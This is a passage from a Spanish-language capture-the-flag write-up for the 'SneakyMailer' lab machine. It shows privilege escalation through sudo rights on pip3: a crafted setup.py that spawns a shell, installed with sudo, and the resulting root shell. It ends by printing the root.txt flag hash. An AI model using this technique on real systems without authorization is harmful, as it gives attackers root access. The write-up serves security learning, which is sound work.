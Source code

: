 * [https://gtfobins.github.io/](https://gtfobins.github.io/)

ahi podemos ver que si tenemos el privilegio de sudo en `pip3`, debemos ejecutar los siguentes comandos y nos convertiremos en el usuario `root`


```bash
low@sneakymailer:~$ TF=$(mktemp -d)
low@sneakymailer:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:~$ sudo pip install $TF
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
[sudo] password for low: 
low@sneakymailer:~$ TF=$(mktemp -d)
low@sneakymailer:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:~$ sudo pip3 install $TF
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Processing /tmp/tmp.25RDYk7IwK
# whoami
root
```

Finalmente podemos dirigirnos al directorio de `root` y visualizar la segunda flag `root.txt` :)

```bash
# cd /root
# cat root.txt
25ae2132a2ff299928b234e186ad53ec
```

